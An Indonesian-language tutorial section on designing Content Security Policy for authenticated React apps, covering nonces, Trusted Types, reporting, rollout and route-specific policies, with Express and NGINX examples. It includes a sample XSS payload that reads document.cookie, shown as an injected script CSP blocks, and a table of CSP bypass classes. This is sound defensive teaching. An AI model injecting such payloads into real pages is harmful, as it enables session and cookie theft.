



# Part 083 — CSP for React Authenticated Apps

## 1. Ide inti

**Content Security Policy bukan pengganti secure coding.** CSP adalah _browser-enforced damage limiter_.

Kalau XSS sudah masuk, CSP yang baik dapat mengurangi kemampuan payload untuk:

1. menjalankan script tidak sah,
2. memanggil endpoint exfiltration,
3. membuka iframe phishing,
4. mengirim form ke origin tidak sah,
5. membuat base URL berbahaya,
6. menjalankan plugin/object legacy,
7. menyalahgunakan resource cross-origin,
8. membuat clickjacking lebih mudah,
9. mengeksfiltrasi token/session projection lewat endpoint yang tidak terdaftar.

Tetapi CSP **tidak membuat React app otomatis aman**.

CSP tidak memperbaiki:

- authorization yang hanya dilakukan di frontend,
- API yang menerima object id tanpa object-level authorization,
- session cookie tanpa CSRF defense,
- permission cache yang stale,
- sensitive data yang sudah dikirim ke client,
- logging/analytics yang membocorkan PII,
- SSR/RSC boundary yang serializes secret data ke browser.

Mental model paling tepat:

```txt id="rqz0gc"
XSS prevention  = jangan biarkan attacker menyuntik script.
CSP             = kalau ada celah, batasi apa yang bisa dilakukan script.
Trusted Types   = batasi sink DOM berbahaya.
Auth boundary   = tetap di server/API/resource layer.
```

Untuk authenticated React apps, CSP bukan dekorasi header. CSP adalah bagian dari **auth incident containment**.

---

## 2. Kenapa CSP sangat penting untuk auth

Pada aplikasi publik statis, XSS bisa “hanya” merusak tampilan. Pada aplikasi authenticated, XSS bisa menjadi:

- account takeover,
- session riding,
- sensitive data scraping dari DOM/cache/query client,
- unauthorized mutation atas nama user,
- workflow tampering,
- token exfiltration jika token accessible oleh JavaScript,
- permission probing,
- tenant data leakage,
- abuse terhadap admin/support console,
- silent action execution di background.

Masalahnya: React app modern sering punya banyak permukaan script:

- bundle utama,
- dynamically imported chunks,
- analytics SDK,
- monitoring SDK,
- feature flag SDK,
- customer support widget,
- rich-text/markdown renderer,
- microfrontend remote bundle,
- tag manager,
- A/B testing script,
- embedded IdP widget,
- Web Worker/service worker,
- inline bootstrapping data,
- SSR hydration script.

Tanpa CSP, browser cenderung mengizinkan terlalu banyak resource selama HTML/JS bisa memanggilnya.

Dengan CSP, kita mengubah browser menjadi _policy enforcement point_ untuk resource loading.



CSP memberi kita **runtime deny-by-default untuk resource loading**.

---

## 3. Apa yang CSP bisa dan tidak bisa enforce

CSP bisa mengontrol kategori browser behavior berikut.

| Concern | Directive utama | Auth relevance |
|---|---|---|
| Script execution | `script-src`, `script-src-elem`, `script-src-attr` | Mengurangi XSS execution path. |
| Network call | `connect-src` | Membatasi exfiltration endpoint dan API/IdP targets. |
| Framing app | `frame-ancestors` | Clickjacking defense untuk authenticated UI. |
| Embedding iframe | `frame-src`, `child-src` | Membatasi IdP/payment/support iframe. |
| Form submission | `form-action` | Mengurangi credential/session data post ke origin lain. |
| Base URL injection | `base-uri` | Mencegah `<base>` mengubah target relative URLs. |
| Plugin/object | `object-src` | Matikan Flash/object legacy. |
| Image/media/font | `img-src`, `media-src`, `font-src` | Batasi resource dan tracking beacon. |
| Worker | `worker-src` | Kontrol Web Worker/service worker-like script source. |
| Manifest | `manifest-src` | Batasi PWA manifest. |
| Mixed content | `upgrade-insecure-requests`, `block-all-mixed-content` | Kurangi downgrade/mixed content. |
| Reporting | `report-uri`, `report-to` | Observability untuk policy violation. |

CSP tidak bisa menentukan apakah user boleh `approve_case` atau `delete_invoice`.

Itu tetap authorization policy server-side.

---

## 4. CSP sebagai policy, bukan string header tempelan

CSP yang benar harus dirancang dari dependency graph aplikasi.

Jangan mulai dari:

```txt id="4qccsa"
Tambahkan header CSP apa ya biar security scanner hijau?
```

Mulai dari pertanyaan:

1. Script mana yang benar-benar boleh execute?
2. Endpoint mana yang benar-benar boleh dihubungi browser?
3. Origin mana yang boleh menampilkan app dalam iframe?
4. Origin mana yang boleh di-embed oleh app?
5. Form boleh submit ke mana?
6. Apakah app memakai inline script untuk hydration/bootstrap?
7. Apakah app memakai CSS-in-JS yang butuh inline style?
8. Apakah monitoring/analytics butuh network call ke third-party?
9. Apakah IdP memakai iframe/popup/redirect?
10. Apakah route authenticated berbeda dari public marketing pages?
11. Bagaimana report violation dikumpulkan dan ditriage?

CSP yang baik biasanya berbeda antara:

- public landing page,
- authenticated app shell,
- admin console,
- OAuth callback page,
- embedded widget page,
- static asset response,
- API response,
- file preview/download page.

---

## 5. Baseline CSP untuk authenticated React SPA

Baseline ketat untuk authenticated app shell kira-kira seperti ini.

```http id="eiiv7x"
Content-Security-Policy:
  default-src 'none';
  base-uri 'self';
  object-src 'none';
  frame-ancestors 'none';
  form-action 'self';
  script-src 'self' 'nonce-{NONCE}' 'strict-dynamic';
  style-src 'self' 'nonce-{NONCE}';
  img-src 'self' data: blob:;
  font-src 'self';
  connect-src 'self' https://api.example.com https://idp.example.com;
  frame-src https://idp.example.com;
  worker-src 'self' blob:;
  manifest-src 'self';
  upgrade-insecure-requests;
  report-to csp-endpoint;
```

Untuk production nyata, header ini harus disesuaikan. Tetapi prinsipnya penting:

- mulai dari `default-src 'none'`,
- buka hanya resource yang diperlukan,
- gunakan nonce/hash untuk inline bootstrap,
- hindari `unsafe-inline`,
- hindari wildcard luas,
- batasi `connect-src`,
- batasi `frame-ancestors`,
- pakai report-only rollout sebelum enforce.

Anti-baseline:

```http id="v0jz9f"
Content-Security-Policy: default-src * 'unsafe-inline' 'unsafe-eval' data: blob:
```

Header itu terlihat seperti CSP, tetapi secara keamanan hampir tidak berguna untuk authenticated app.

---

## 6. Strict CSP: nonce, hash, dan `strict-dynamic`

OWASP membedakan CSP tradisional berbasis allowlist source dan _Strict CSP_ berbasis nonce/hash.

### 6.1 Source allowlist CSP

Contoh:

```http id="g8ks8v"
script-src 'self' https://cdn.example.com https://analytics.example.com
```

Kelemahannya:

- domain CDN yang diizinkan bisa men-host banyak script,
- JSONP/legacy endpoint bisa menjadi bypass,
- third-party compromise berdampak besar,
- wildcard mudah melebar,
- sulit membedakan script yang sengaja dimuat vs disuntik.

### 6.2 Nonce-based CSP

Server membuat nonce unik per response HTML.

```http id="urmn3v"
Content-Security-Policy: script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'self'
```

Script yang boleh jalan:

```html id="vkz9y4"
<script nonce="r4nd0m" src="/assets/app.abc123.js"></script>
```

Script injeksi tanpa nonce diblokir:

```html id="avogz1"
<script>alert(document.cookie)</script>
```

### 6.3 Hash-based CSP

Hash cocok untuk inline script yang statis.

```http id="ktjdxm"
Content-Security-Policy: script-src 'sha256-abc...'
```

Tetapi React/SSR bootstrap sering berubah per request karena mengandung serialized data. Untuk data dinamis, nonce biasanya lebih fleksibel.

### 6.4 `strict-dynamic`

`strict-dynamic` membuat trust diteruskan dari script yang punya nonce/hash ke script yang script itu load secara dinamis. Ini berguna untuk module loader/chunk loader.

Tetapi jangan salah paham:

- `strict-dynamic` bukan izin untuk semua script.
- Entry script harus tetap punya nonce/hash.
- Third-party script yang diberi nonce tetap menjadi trusted root.
- Kalau trusted root compromised, CSP tidak menyelamatkan logical compromise.

---

## 7. Nonce architecture untuk React SSR/BFF

Nonce harus dibuat per HTML response.



Contoh Node/Express style.

```ts id="xzrekg"
import crypto from "node:crypto";
import type { Request, Response, NextFunction } from "express";

export function cspNonce(req: Request, res: Response, next: NextFunction) {
  const nonce = crypto.randomBytes(16).toString("base64");

  res.locals.cspNonce = nonce;

  res.setHeader(
    "Content-Security-Policy",
    [
      "default-src 'none'",
      "base-uri 'self'",
      "object-src 'none'",
      "frame-ancestors 'none'",
      "form-action 'self'",
      `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
      `style-src 'self' 'nonce-${nonce}'`,
      "img-src 'self' data: blob:",
      "font-src 'self'",
      "connect-src 'self' https://api.example.com https://idp.example.com",
      "frame-src https://idp.example.com",
      "worker-src 'self' blob:",
      "manifest-src 'self'",
      "upgrade-insecure-requests",
    ].join("; ")
  );

  next();
}
```

HTML renderer:

```tsx id="3n3chw"
type HtmlProps = {
  nonce: string;
  appHtml: string;
  assetPath: string;
};

export function HtmlDocument({ nonce, appHtml, assetPath }: HtmlProps) {
  return `<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <title>Regulated App</title>
  </head>
  <body>
    <div id="root">${appHtml}</div>
    <script nonce="${nonce}" type="module" src="${assetPath}"></script>
  </body>
</html>`;
}
```

Invariant:

```txt id="2wku7k"
Nonce is not a session secret.
Nonce is a per-response execution marker.
Never reuse nonce across responses.
Never expose nonce in persistent storage.
Never let user-controlled markup receive nonce.
```

---

## 8. CSP untuk Vite SPA vs SSR app

### 8.1 Static Vite SPA

Pure static SPA biasanya punya `index.html` yang sama untuk semua user. Karena tidak ada server render per request, nonce sulit dipakai untuk static HTML kecuali ada edge/server rewriting.

Pilihan:

1. gunakan hash-based CSP untuk inline script statis,
2. hilangkan inline script sepenuhnya,
3. serve HTML melalui BFF/edge yang inject nonce,
4. gunakan source allowlist ketat jika nonce/hashes belum feasible,
5. pisahkan authenticated app shell dari public static marketing pages.

Contoh static-friendly policy:

```http id="b0j5pf"
Content-Security-Policy:
  default-src 'none';
  base-uri 'self';
  object-src 'none';
  frame-ancestors 'none';
  form-action 'self';
  script-src 'self';
  style-src 'self';
  img-src 'self' data: blob:;
  font-src 'self';
  connect-src 'self' https://api.example.com https://idp.example.com;
```

Ini lebih lemah dari nonce-based strict CSP dalam beberapa skenario, tetapi masih jauh lebih baik daripada `default-src *`.

### 8.2 SSR/BFF app

SSR/BFF dapat membuat nonce per response. Ini ideal untuk authenticated shell.

### 8.3 Next.js App Router

Pada Next.js, nonce perlu tersedia di rendering boundary yang menghasilkan script/style. Implementasi bergantung pada versi framework, routing, dan deployment. Hal yang penting secara arsitektur:

- nonce dibuat server-side per request,
- CSP header dan rendered tags memakai nonce yang sama,
- middleware/proxy/CDN tidak boleh cache HTML bernonce secara salah,
- route authenticated harus `no-store` atau punya cache key yang benar,
- nonce tidak boleh statis di environment variable.

---

## 9. Auth-specific CSP directives

### 9.1 `connect-src`

`connect-src` mengontrol target untuk `fetch`, XHR, WebSocket, EventSource, beacon, dan beberapa API network lain.

Authenticated React app biasanya butuh:

```http id="0hpn2k"
connect-src 'self' https://api.example.com https://idp.example.com wss://realtime.example.com
```

Jangan gunakan:

```http id="0akckr"
connect-src *
```

Karena XSS payload dapat mengeksfiltrasi data ke domain attacker.

Lebih baik pikirkan `connect-src` sebagai **egress firewall di browser**.

```txt id="3s8wa7"
Allowed egress:
- same-origin BFF
- first-party API
- first-party realtime endpoint
- IdP token/session endpoint if truly called from browser
- monitoring endpoint if approved

Denied egress:
- arbitrary internet
- user-provided webhook URL
- analytics vendor not approved for sensitive pages
- tag manager arbitrary destinations
```

### 9.2 `frame-ancestors`

Untuk authenticated app, baseline aman:

```http id="gwie04"
frame-ancestors 'none'
```

Kalau app memang harus di-embed oleh trusted portal:

```http id="m5pidp"
frame-ancestors https://portal.example.com
```

Jangan pakai `X-Frame-Options` sebagai satu-satunya kontrol modern. `frame-ancestors` lebih ekspresif, tetapi `X-Frame-Options: DENY` masih dapat dipakai sebagai backward-compatible defense untuk browser lama.

### 9.3 `frame-src`

`frame-src` mengontrol iframe yang app boleh embed.

Auth use case:

- embedded IdP login widget,
- payment challenge,
- document preview sandbox,
- support widget.

Jika app tidak perlu iframe:

```http id="q4sxnm"
frame-src 'none'
```

Jika butuh IdP:

```http id="tneew5"
frame-src https://idp.example.com
```

### 9.4 `form-action`

`form-action` membatasi target form submission.

```http id="8g17tj"
form-action 'self' https://idp.example.com
```

Ini penting untuk:

- legacy form login,
- SAML POST binding,
- OAuth/OIDC provider form interactions,
- enterprise SSO edge cases.

### 9.5 `base-uri`

`base-uri 'self'` atau `base-uri 'none'` mencegah attacker menyisipkan `<base>` yang mengubah behavior relative URL.

```http id="0homfp"
base-uri 'self'
```

Untuk app shell modern tanpa kebutuhan `<base>` dinamis, `base-uri 'none'` bisa dipertimbangkan.

### 9.6 `object-src`

Baseline:

```http id="u7ti4d"
object-src 'none'
```

Authenticated React apps hampir tidak pernah membutuhkan `<object>`, `<embed>`, atau `<applet>`.

---

## 10. CSP dan OAuth/OIDC flows

OAuth/OIDC menambahkan beberapa kebutuhan CSP khusus.

### 10.1 Redirect-based login

Authorization Code with PKCE biasanya redirect ke IdP. CSP tidak mengontrol top-level navigation ke IdP dengan `connect-src`. Tetapi callback page tetap harus punya CSP ketat.

Callback route sebaiknya minimal:

```http id="31s8tb"
Content-Security-Policy:
  default-src 'none';
  base-uri 'none';
  object-src 'none';
  frame-ancestors 'none';
  form-action 'self';
  script-src 'self' 'nonce-{NONCE}' 'strict-dynamic';
  connect-src 'self';
```

Callback page tidak perlu analytics, chat widget, markdown renderer, atau third-party experimentation script.

### 10.2 Silent renew iframe

Implicit-era silent renew iframe adalah legacy pattern. Modern Authorization Code with PKCE + refresh token rotation/BFF lebih baik.

Jika provider SDK masih membutuhkan iframe, `frame-src` harus eksplisit. Jangan membuka semua IdP wildcard tanpa review.

### 10.3 SAML POST binding

Enterprise SSO kadang memakai form POST dari IdP ke ACS endpoint. Untuk React-only apps, ini biasanya harus ditangani server/BFF, bukan client route biasa.

Jika ada route browser yang menerima form-based interaction, review `form-action`, `frame-ancestors`, dan cache-control.

---

## 11. CSP dan third-party SDK

Third-party script adalah supply-chain execution.

Untuk authenticated app, klasifikasikan SDK:

| SDK type | Risiko auth | CSP impact |
|---|---|---|
| Analytics | PII/event leakage | `script-src`, `connect-src`, sampling/redaction. |
| Error monitoring | Token/header/body leakage | `connect-src`, scrubbers, source map access. |
| Feature flags | Behavior tampering | `connect-src`, local cache, fallback. |
| Support chat | DOM access, screenshot, identity leakage | `script-src`, iframe isolation, route exclusion. |
| Tag manager | Arbitrary script loading | High risk; avoid in authenticated shell. |
| A/B testing | DOM mutation | High risk in auth/permission UI. |
| Rich text plugin | XSS surface | sanitizer + CSP + Trusted Types. |
| Microfrontend remote | Remote code execution by design | origin isolation and contract hardening. |

Rule untuk internal handbook:

```txt id="uil71h"
No tag manager in authenticated app shell unless security review explicitly approves it.
No third-party script on OAuth callback page.
No third-party script on admin impersonation or privileged workflow pages.
No analytics event may include token, cookie value, authorization header, raw JWT, SAML assertion, reset link, invite token, or full sensitive URL.
```

CSP harus menjadi hasil dari vendor allowlist yang sadar risiko, bukan hasil trial-and-error sampai UI tidak error.

---

## 12. Trusted Types

Trusted Types membantu mengunci DOM XSS sink seperti `innerHTML` agar hanya menerima value dari policy yang didefinisikan.

CSP directive:

```http id="1wjg2j"
require-trusted-types-for 'script';
trusted-types app-html sanitizer-policy;
```

Contoh mental model:



Trusted Types berguna ketika app punya:

- rich-text renderer,
- markdown renderer,
- CMS content,
- custom HTML email preview,
- legacy component yang memakai `dangerouslySetInnerHTML`,
- third-party widget yang memanipulasi DOM.

Contoh policy wrapper:

```ts id="zt59s4"
import DOMPurify from "dompurify";

export function createSanitizedHtml(input: string): TrustedHTML | string {
  const sanitized = DOMPurify.sanitize(input, {
    USE_PROFILES: { html: true },
  } as never);

  if (window.trustedTypes) {
    const policy = window.trustedTypes.createPolicy("sanitizer-policy", {
      createHTML: (value) => DOMPurify.sanitize(value),
    });

    return policy.createHTML(sanitized);
  }

  return sanitized;
}
```

Catatan TypeScript/JavaScript: contoh di atas menunjukkan konsep. Implementasi production harus disesuaikan dengan browser support, typing, SSR, dan policy initialization agar tidak membuat duplicate policy error.

Trusted Types bukan pengganti sanitizer. Ia membuat sink lebih sulit disalahgunakan.

---

## 13. CSP reporting

CSP tanpa telemetry seperti circuit breaker tanpa alarm.

Mulai rollout dengan:

```http id="pf18h7"
Content-Security-Policy-Report-Only: ...; report-to csp-endpoint
```

Kemudian kumpulkan violation report.

Contoh endpoint schema internal:

```ts id="m96iby"
type CspViolationEvent = {
  timestamp: string;
  requestId?: string;
  userIdHash?: string;
  tenantIdHash?: string;
  routePattern?: string;
  effectiveDirective?: string;
  blockedUri?: string;
  sourceFile?: string;
  lineNumber?: number;
  columnNumber?: number;
  disposition: "report" | "enforce";
  userAgent?: string;
  buildId?: string;
};
```

Jangan log raw full URL sembarangan karena dapat mengandung sensitive query parameter.

Sanitize sebelum simpan:

```ts id="z6fv8k"
function sanitizeBlockedUri(uri: string | undefined): string | undefined {
  if (!uri) return undefined;

  try {
    const parsed = new URL(uri);
    return `${parsed.protocol}//${parsed.host}${parsed.pathname}`;
  } catch {
    return uri.slice(0, 200);
  }
}
```

Triage report:

| Signal | Kemungkinan arti | Action |
|---|---|---|
| `script-src` blocked inline | Inline script baru, XSS attempt, framework bootstrap issue | Investigate immediately. |
| `connect-src` unknown domain | Vendor baru, malicious exfiltration, browser extension noise | Classify, block/allow intentionally. |
| `frame-ancestors` violation | Clickjacking attempt atau legit embedding | Review embedding policy. |
| `img-src` data/blob noise | Inline images, upload preview | Decide route-specific policy. |
| `style-src` inline | CSS-in-JS/hydration/dev tooling | Fix nonce/hash or style architecture. |

---

## 14. Report-only rollout strategy

CSP rollout yang brutal sering merusak production. Rollout yang benar seperti migration.

### Stage 1 — Inventory

- List all script origins.
- List all API/connect origins.
- List all iframe origins.
- List all form actions.
- List all pages that need weaker policy.
- List all third-party widgets.
- List all inline scripts/styles.

### Stage 2 — Report-only broad policy

Mulai dengan policy yang masih cukup permissive tapi observability aktif.

```http id="2j3mu8"
Content-Security-Policy-Report-Only:
  default-src 'self';
  report-to csp-endpoint
```

### Stage 3 — Tighten directive per directive

Urutan praktis:

1. `object-src 'none'`
2. `base-uri 'self'`
3. `frame-ancestors 'none'` atau allowlist
4. `form-action 'self'`
5. `connect-src` allowlist
6. `img-src`, `font-src`, `media-src`
7. `script-src`
8. `style-src`
9. Trusted Types

### Stage 4 — Enforce low-risk directives

`object-src`, `base-uri`, `frame-ancestors`, dan `form-action` biasanya bisa dienforce lebih cepat setelah testing.

### Stage 5 — Enforce script policy

Script policy paling sensitif. Pastikan:

- no inline script tanpa nonce/hash,
- dev tooling excluded dari production policy,
- analytics/monitoring reviewed,
- callback/admin routes punya stricter policy,
- reports triaged.

### Stage 6 — Continuous governance

Setiap vendor baru harus mengubah CSP lewat PR dengan security review.

---

## 15. Route-specific CSP

Satu CSP untuk semua route sering terlalu longgar. Untuk authenticated apps, route-specific CSP lebih realistis.

| Route group | CSP posture |
|---|---|
| `/login` | Allow IdP/connect/frame as needed. Minimal third-party. |
| `/callback` | Extremely strict. No analytics. No widgets. |
| `/app/*` | Strict authenticated shell. First-party API only. |
| `/admin/*` | Stricter than normal app. No third-party widgets. |
| `/impersonation/*` | Strictest. No analytics payload with subject data. |
| `/embed/*` | Explicit `frame-ancestors` allowlist. |
| `/preview/*` | Sandbox/iframe strategy. Careful object/media policy. |
| `/public/*` | May allow marketing analytics separately. |

Example policy builder:

```ts id="cj1vmq"
type CspProfile = "public" | "login" | "callback" | "app" | "admin" | "embed";

export function cspFor(profile: CspProfile, nonce: string): string {
  const base = [
    "default-src 'none'",
    "base-uri 'self'",
    "object-src 'none'",
    "manifest-src 'self'",
    "upgrade-insecure-requests",
  ];

  const profiles: Record<CspProfile, string[]> = {
    public: [
      "frame-ancestors 'none'",
      "script-src 'self' https://analytics.example.com",
      "connect-src 'self' https://analytics.example.com",
      "style-src 'self' 'unsafe-inline'",
      "img-src 'self' data: https:",
      "font-src 'self'",
      "form-action 'self'",
    ],
    login: [
      "frame-ancestors 'none'",
      `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
      `style-src 'self' 'nonce-${nonce}'`,
      "connect-src 'self' https://idp.example.com",
      "frame-src https://idp.example.com",
      "form-action 'self' https://idp.example.com",
      "img-src 'self' data:",
      "font-src 'self'",
    ],
    callback: [
      "frame-ancestors 'none'",
      `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
      `style-src 'self' 'nonce-${nonce}'`,
      "connect-src 'self'",
      "form-action 'self'",
      "img-src 'self'",
      "font-src 'self'",
    ],
    app: [
      "frame-ancestors 'none'",
      `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
      `style-src 'self' 'nonce-${nonce}'`,
      "connect-src 'self' https://api.example.com wss://realtime.example.com",
      "img-src 'self' data: blob:",
      "font-src 'self'",
      "form-action 'self'",
      "worker-src 'self' blob:",
    ],
    admin: [
      "frame-ancestors 'none'",
      `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
      `style-src 'self' 'nonce-${nonce}'`,
      "connect-src 'self' https://api.example.com",
      "img-src 'self' data:",
      "font-src 'self'",
      "form-action 'self'",
      "worker-src 'self'",
    ],
    embed: [
      "frame-ancestors https://portal.example.com",
      `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
      `style-src 'self' 'nonce-${nonce}'`,
      "connect-src 'self' https://api.example.com",
      "img-src 'self' data:",
      "font-src 'self'",
      "form-action 'self'",
    ],
  };

  return [...base, ...profiles[profile]].join("; ");
}
```

---

## 16. CSP dan React-specific pitfalls

### 16.1 Inline event handlers

React tidak menghasilkan inline `onclick="..."` seperti legacy HTML, tetapi user-rendered HTML dapat mengandungnya.

Sanitizer harus menghapus event attributes.

```html id="05hgie"

```

CSP `script-src-attr 'none'` dapat membantu.

```http id="cc86yu"
script-src-attr 'none'
```

### 16.2 `dangerouslySetInnerHTML`

CSP bukan izin untuk memakai `dangerouslySetInnerHTML` bebas.

Rule:

```txt id="u2x7ih"
No raw user HTML enters dangerouslySetInnerHTML.
All HTML must pass sanitizer.
All sanitizer policies must be centrally owned.
All rich HTML rendering routes must be CSP monitored.
```

### 16.3 CSS-in-JS

Sebagian CSS-in-JS runtime membuat inline `<style>` tags. Ini dapat memaksa `style-src 'unsafe-inline'` jika tidak didukung nonce.

Lebih baik:

- gunakan library yang support nonce,
- compile CSS statis jika memungkinkan,
- batasi `unsafe-inline` ke public route jika tidak bisa dihindari,
- jangan membuka `style-src *` tanpa alasan.

### 16.4 Dev vs production

Vite/webpack dev server sering butuh `unsafe-eval`, websocket, dan inline style. Jangan salin CSP dev ke production.

```txt id="v3jzxe"
Development CSP can be weaker.
Production CSP must be intentionally reviewed.
Never use dev CSP as production baseline.
```

### 16.5 Source maps

CSP tidak mengontrol akses source map secara langsung. Tetapi source maps untuk authenticated app perlu dipublikasikan dengan hati-hati. Source map dapat membuka source, route names, endpoint hints, dan feature flag names.

Simpan source map di monitoring vendor dengan access control, bukan public CDN tanpa review.

---

## 17. CSP untuk service worker dan worker

Worker bisa menjadi auth-sensitive karena dapat intercept request dan cache data.

Directive:

```http id="pni5hh"
worker-src 'self'
```

Jika app memakai blob worker:

```http id="r4nv8s"
worker-src 'self' blob:
```

Jangan izinkan remote worker kecuali benar-benar perlu.

Service worker tambahan:

- service worker script harus served dari trusted origin,
- update lifecycle harus diaudit,
- cache route authenticated harus scoped dan purged on logout,
- CSP tidak menggantikan service worker cache policy,
- Clear-Site-Data bisa membantu logout/incident cleanup tetapi perlu diuji.

---

## 18. CSP untuk microfrontend

Microfrontend membuat CSP lebih sulit karena remote code adalah execution boundary.

Pertanyaan yang harus dijawab:

1. Apakah remote module trusted seperti first-party code?
2. Apakah remote host punya release governance setara main app?
3. Apakah remote module bisa membaca auth context?
4. Apakah remote module bisa memanggil API client?
5. Apakah permission decision disediakan sebagai minimal facade atau full user profile?
6. Apakah remote module bisa load third-party script lagi?
7. Bagaimana CSP berubah saat remote baru ditambahkan?

Untuk auth-sensitive microfrontend, pertimbangkan:

- same-origin deployment,
- build-time composition,
- iframe isolation untuk untrusted remote,
- `postMessage` dengan schema validation,
- separate CSP profile per iframe,
- no raw token passed to remote.

---

## 19. CSP bypass thinking

CSP review harus berpikir seperti attacker.

Contoh bypass class:

| Weakness | Dampak |
|---|---|
| `script-src 'unsafe-inline'` | Inline XSS bebas execute. |
| `script-src *` | Attacker bisa load script dari domain kontrolnya. |
| JSONP endpoint allowed | Source allowlist bypass. |
| Nonce reused | Injected script dapat reuse nonce. |
| Nonce diberikan ke user HTML | Sanitizer bypass menjadi script execution. |
| `connect-src *` | XSS dapat exfiltrate ke mana saja. |
| `img-src *` | Data exfil via image beacon masih mungkin. |
| `frame-ancestors *`/missing | Clickjacking exposure. |
| Tag manager allowed | Policy effectively delegated ke tag manager. |
| Report endpoint logs full URL | CSP telemetry membocorkan secret query params. |

CSP review bukan hanya “apakah header ada”. Pertanyaannya: **apa blast radius XSS setelah policy ini aktif?**

---

## 20. Implementation: NGINX baseline

Contoh static SPA dengan CSP source allowlist ketat.

```nginx id="oc30ui"
server {
  listen 443 ssl http2;
  server_name app.example.com;

  root /usr/share/nginx/html;

  add_header Content-Security-Policy "default-src 'none'; base-uri 'self'; object-src 'none'; frame-ancestors 'none'; form-action 'self'; script-src 'self'; style-src 'self'; img-src 'self' data: blob:; font-src 'self'; connect-src 'self' https://api.example.com https://idp.example.com wss://realtime.example.com; worker-src 'self' blob:; manifest-src 'self'; upgrade-insecure-requests" always;

  location / {
    try_files $uri /index.html;
  }
}
```

Untuk nonce-based CSP, NGINX murni bukan tempat paling nyaman karena nonce harus masuk ke HTML dan header per response. Gunakan SSR/BFF/edge renderer atau template substitution yang aman.

---

## 21. Implementation: API does not need app-shell CSP

JSON API response tidak membutuhkan `script-src` app shell. API membutuhkan security headers berbeda.

Contoh:

```http id="tpqocr"
Content-Type: application/json
Cache-Control: no-store
